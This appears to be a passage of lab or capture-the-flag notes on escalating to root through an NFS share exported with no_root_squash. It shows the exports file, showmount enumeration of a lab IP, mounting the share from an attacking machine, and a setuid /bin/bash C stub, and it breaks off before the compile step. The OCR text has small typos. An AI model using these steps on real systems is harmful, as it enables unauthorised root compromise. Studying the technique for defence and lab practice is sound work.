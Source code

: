 \# to NFS clients. See exports(5).

\#

\# Example for NFSv2 and NFSv3:

\# /srv/homes hostname1(rw,sync,no\_subtree\_check) hostname2(ro,sync,no\_subtree\_check)

\#

\# Example for NFSv4:

\# /srv/nfs4 gss/krb5i(rw,sync,fsid=0,crossmnt,no\_subtree\_check)

\# /srv/nfs4/homes gss/krb5i(rw,sync,no\_subtree\_check)

\#

/home/backup \*(rw,sync,insecure,no\_root\_squash,no\_subtree\_check)

/tmp \*(rw,sync,insecure,no\_root\_squash,no\_subtree\_check)

/home/ubuntu/sharedfolder \*(rw,sync,insecure,no\_root\_squash,no\_subtree\_check)

* no\_root\_squash option is critical element for privilege escalation.
* NSF changes root user to nsfnobody and strips any file from operation with root privileges by default.
* Can create executable with SUID bit set and run it on target if 1no\_root\_squash1 is preent on writable share.
* Enumerate mountable shares from attacking machine.

showmount -e 10.10.91.21

Export list for 10.10.91.21:

/home/ubuntu/sharedfolder \*

/tmp \*

/home/backup \*

* Mount one of the no\_root\_squash shares to the attacking machine.

mkdir /tmp/sharedfolder

mount -o rw 10.10.91.21:/home/ubuntu/sharedfolder /tmp/sharedfolder

* Create C executable to run /bin/bash on target.

1. nano nfs.c.

int main()

{

setgid(0);

setuid(0);

system("/bin/bash");

return 0;

}
